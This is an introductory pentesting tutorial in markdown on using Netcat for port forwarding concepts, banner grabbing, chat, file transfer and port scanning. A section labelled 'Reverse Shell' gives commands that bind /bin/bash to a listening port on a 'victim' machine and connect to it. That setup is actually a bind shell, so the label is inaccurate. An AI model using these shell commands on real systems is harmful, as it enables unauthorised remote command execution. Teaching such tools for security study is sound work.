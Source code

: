 # Swiss Army Knife for Pentesters

> **Focus:** using multi-purpose tools (like Netcat) to establish connections, scan networks, transfer files, and more during penetration tests.

---

## Table of Contents
1. [Port Forwarding](#1-port-forwarding)
2. [Swiss Army Knife Concept](#2-swiss-army-knife-concept)
3. [Netcat](#3-netcat)

---

## 1 – Port Forwarding

### What is Port Forwarding?
Port forwarding allows traffic from outside a network to reach a specific device inside a local network by configuring the router to forward incoming packets on a port to an internal IP and port.

**Why it matters:**  
Penetration testers often need to pivot or access services hidden behind NAT/firewalls.

### Example Scenario

```
+-----------------------+       +-------------------------+
|       Internet         | <---> |     Router (NAT)        |
+-----------------------+       +-------------------------+
                                      |
                                      | forwards port 2222 -> 192.168.0.10:22
                                      |
                            +-------------------+
                            | Local Network     |
                            | Device: 192.168.0.10|
                            | SSH server on :22 |
                            +-------------------+
```

By setting up port forwarding on the router, you make the internal SSH server accessible from the internet on port `2222`.

---

## 2 – Swiss Army Knife Concept

### Why "Swiss Army Knife"?
A Swiss Army Knife packs multiple tools into a single device.  
Similarly, certain pentesting utilities pack multiple networking features into a single binary.

### Swiss Army Knife for Pentesters
Tools like `netcat`, `ncat`, `socat`, `cryptcat`, and `sbd` allow you to:

Establish and receive connections  
Perform banner grabbing  
Set up simple chat sessions  
Transfer files over TCP/UDP  
Deploy basic honeypots  
Scan ports  
Execute remote commands

---

## 3 – Netcat

### About Netcat
Netcat (often installed as `nc`, `netcat`, or `nc.traditional`) is a minimalistic networking utility available by default on most Linux distros.  
There are also Windows binaries (`nc.exe`).

---

### Example: Connecting to a Service
Connect to an FTP server on port 21:

```bash
nc www.businesscorp.com.br 21
```

You’ll see the FTP banner, indicating a successful TCP handshake and service response.

---

### Chat Over Netcat
You can use Netcat to set up a rudimentary chat between two machines.

#### On the listener (192.168.0.10):
```bash
nc -l -p 4444
```

#### On the client:
```bash
nc 192.168.0.10 4444
```

Now anything typed will be sent across the connection.

---

### IP Logger Example
You can use Netcat to quickly identify connections (primitive logger).

#### On the server:
```bash
nc -l -p 5555 > connections.txt
```
Any incoming data will be saved into `connections.txt`.

---

### Transfer Files
#### Send a file
```bash
nc -l -p 6666 > received_file.txt
```
#### On the sender
```bash
nc 192.168.0.10 6666 < file_to_send.txt
```

---

### Reverse Shell (remote command execution)
#### Victim machine (listener for shell)
```bash
nc -l -p 7777 -e /bin/bash
```
#### Attacker connects:
```bash
nc 192.168.0.10 7777
```
> **Note:** The `-e` flag is disabled on many distributions for security reasons. Alternatives include using `/dev/tcp`.

---

### Quick Port Scanner
```bash
nc -zv 192.168.0.10 20-30
```
- `-z` = scan mode (no data sent)
- `-v` = verbose output

---

## Summary
Tools like Netcat embody the "Swiss Army Knife" concept: with a single small binary, you can explore, scan, connect, chat, transfer, and even pivot. As a pentester, mastering such tools greatly increases your flexibility in the field.


